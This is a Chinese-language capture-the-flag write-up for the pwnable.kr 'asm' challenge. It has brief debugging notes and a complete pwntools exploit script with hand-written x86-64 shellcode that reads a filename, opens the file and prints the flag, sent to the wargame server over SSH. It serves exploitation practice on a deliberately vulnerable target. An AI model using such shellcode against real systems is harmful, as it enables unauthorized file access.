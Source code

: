 # pwnable.kr \<asm\>

一开始思路有点跑偏了，想把整个文件名的字符串 push 到栈中，然后就弄得比较复杂。因为自己思维定势比较严重，就认定了要先调用 open 打开文件，再调用 read读入文件内容到 bss 段，最后调用 write 输出到屏幕。后来灵光一闪，发现可以先调用 read 从命令行读取输入到 bss 段，把文件名作为输入放到 bss 段，再调用 open 打开文件。

# 困惑

1. 思路有了，中间还碰到点小问题，不知道为什么 gdb 调试的时候，执行 push 命令，然后 ip 突然变为0x41415000，超出了 mmap 的segment的边界，引发了段错误，想了很久也没有想通。但直接运行程序的时候就一点问题也没有。
2. 不知道为什么 gdb 调试程序突然无法插入断点，无法查看 vmmap，无法 disassemble main 了。可能电脑需要重启？



# 小技巧

gdb 调试的时候插入断点总是发现第二次打开的时候说断点不合法，checksec 发现程序开启了 PIE， 在 exp 文件中设置好 breakpoints 数组，里面存放断点的偏移量，然后每次打开程序的时候根据程序的基地址计算出断点的实际位置。


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    
    return int(_line.split('-')[0], 16)

context(arch='amd64', os='linux', log_level='info')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

_program = 'asm'
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            print "pie detect!"
            _bps = [0xea7] 
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    _ssh = ssh('asm', 'pwnable.kr', 2222, password='guest')
    p = _ssh.process(['nc', '0', '9026'])



filename = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"


"""
sc += shellcraft.read(0, elf.bss(20), 250)
sc += shellcraft.open(elf.bss(20), 0, 0)
sc += shellcraft.read(3, elf.bss(100), 0x100)
sc += shellcraft.write(0, elf.bss(100), 50)
"""
sc = """mov r15, [rsp]   /* r15 save the ret addr */
    sub r15, 0xea9
    add r15, 0x202100    /* r15 points to the bss base addr */
    /* call read(0, bss(0), 0x100) */
    xor rax, rax /* (SYS_read) */
    xor rdi, rdi /* 0 */
    mov rsi, r15
    mov edx, 0x100
    push r15
    syscall
    pop r15
    /* call open(bss(0), 0, 0) */
    mov rax, 2
    mov rdi, r15
    xor rsi, rsi
    xor rdx, rdx
    push r15
    syscall
    pop r15
    /* call read(3, bss(0), 256) */
    xor eax, eax /* (SYS_read) */
    mov rdi, 3
    mov rsi, r15
    add rsi, 250
    mov rdx, 0x100
    push r15
    syscall
    pop r15
    /* call write(2, bss(0), 50) */
    mov rax, 1
    mov rdi, 2
    mov rsi, r15
    add rsi, 250
    mov rdx, 50
    push r15
    syscall
    pop r15
    """
#print sc
payload = asm(sc)
#print payload
p.sendafter("shellcode:", payload)
p.send(filename + '\x00')
print p.recvrepeat(0.5)
```


